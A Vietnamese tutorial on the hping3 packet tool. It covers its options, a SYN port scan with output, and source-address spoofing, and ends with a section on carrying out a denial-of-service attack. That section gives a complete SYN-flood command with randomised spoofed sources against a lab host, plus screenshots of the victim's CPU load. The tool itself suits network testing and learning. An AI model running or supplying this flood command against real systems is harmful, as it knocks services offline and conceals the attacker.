 # Hping3 command

**hping3** là một tool cho phép gửi các gói tin TCP/IP và cho phép hiển thị replies giống như thực hiện ping ICMP, hping3 có thể xử lý trong body của các gói tin truyền đi, xác định size để đóng gói các gói tin dưới các giao thức phù hợp đề truyền đi. Hping3 được sử dụng để thực hiện một trong các công việc sau:

 * Test rule của firewall
 * Scan port
 * Test hiệu năng của network sử dụng các giao thức khác nhau, size của gói tin, TOS, phân mảnh gói tin
 * Traceeroute
 * Remote OS fingerprinting
 * Dự đoán thời gian uptime remote
 * TCP/IP stacks auditing
 
Như vậy tận dụng những gì hping3 có thể làm được để thực hiên tấn công DoS.

## Một số option

* `-c <count>` dừng gửi và nhận khi đã đủ số gói tin xác định
* `-i` Chỉ ra thời gian giữa các gói tin truyền đi 

Ví dụ `-i 3` để set khoảng thời gian giữa 2 gói tin là 3s, `-i u100` để xác định thời gian truyền giữa 2 gói tin là 100 micro giây.

* `--flood` các gói tin gửi liên tục và nhanh nhất có thể, không quan tâm để show các gói tin replies.
* `-I tên_interface` để chỉ ra interface muốn sử dụng để đi ra ngoài.
* `-V` để hiên thị output đầy đủ hơn
* `-0` sử dụng mode raw ip
* `-1` ICMP mode
* `-2` UDP mode
* `-8` Sử dụng để scan port

```
sudo hping3 -8 20-81 -S 10.10.3.3
Scanning 10.10.3.3 (10.10.3.3), port 20-81
62 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name |  flags  |ttl| id  | win | len |
+----+-----------+---------+---+-----+-----+-----+
   22 ssh        : .S..A...  64     0 29200    44
   80 http       : .S..A...  64     0 29200    44
All replies received. Done.
Not responding ports: 
```

* `-a IP` sử dụng để fake một địa chỉ nguồn để khi gửi gói tin. Như vậy thì máy nhận sẽ không biết được địa chỉ gửi như vậy khi đó nó sẽ replies lại địa chỉ giả mạo kia. Và ta không thể thấy được nội dung mà nó replies.

* `--rand-source` Sẽ chọn random một địa chỉ nguồn(thay vì dùng option -a để xác định một địa chỉ IP cụ thể)
* `--rand-dest` chọn random địa chỉ đích. Địa chỉ đích sẽ theo định dạng ta xác định ví dụ như sau `10.10.10.x`
* `-t ttl` để set giá trị time to live
* `-H` set ip protocol trong mode raw ip
* `-g fragment offset value` set giá trị trường offset
* `-m mtu` set giá trị MTU
* `-o hex_tos` set type of service(xác định dưới dạng mã hex).

```
tos help:
          TOS Name                Hex Value           Typical Uses

       Minimum Delay                 10               ftp, telnet
       Maximum Throughput            08               ftp-data
       Maximum Reliability           04               snmp
       Minimum Cost                  02               nntp
```

* `-s source_port` để xác định source cơ sở.
* `-p dest_port` Set destination port. Giá trị này nếu không được set thì mặc định là 0.
* `-w size` set TCP window size. Mặc định là 64
* `-O` Set fake tcp data offset
* `-M` Set the TCP sequence number.
* `-L` Set the TCP ack.
* `-F` bật cờ FIN
* `-S` bật cờ SYN
* `-R` bật cờ RST
* `-P` bật cờ PUSH
* `-A` bật cờ ACK
* `-U` bật cờ URG
* `-X` Set Xmas tcp flag.
* `-Y` Set Ymas tcp flag.
* `-d dât size` set size data trong body của gói tin gửi đi. Default giá trị này là 0. Như vậy total lengh là 40 bytes (của header lengh).
* `-E file_name` sử dụng nội dung của file để fill vào body của packet.
* `-T` thực hiện traceroute đường đi đến đích

## Tấn công DoS sử dụng hping3

Gửi liên tục các gói tin với cờ SYN được bật đến máy nạn nhân. Máy nạn nhân sẽ gửi lại gói tin ACK để xác thực kết nối nhưng nó không nhận được phản hồi từ máy tấn công. Trong khi máy tấn công tiếp tục gửi đi các gói tin với cờ SYN được bật. 

![](../images/hping3/hping_1.png)

Ví dụ 

```
sudo hping3 -c 100000000 -d 65000 -S -w 64 -p 80 --rand-source --flood 10.10.3.3
```

* `-c` số packet gửi đi
* `-d` data gửi đi trong mỗi packet
* `-S` sử dụng cờ SYN
* `-w` window size
* `-p` destinotion port
* `--rand-source` chọn một địa chỉ nguồn bất kì
* `--flood` gửi packet nhanh nhất có thể

Ta thấy CPU ở máy nạn nhân lúc này lên rất cao

![](../images/hping3/hping_3.png)

Trên máy nạn nhân lúc này đang phải nhận và xử lý rất nhiều kết nối

![](../images/hping3/hping_2.png)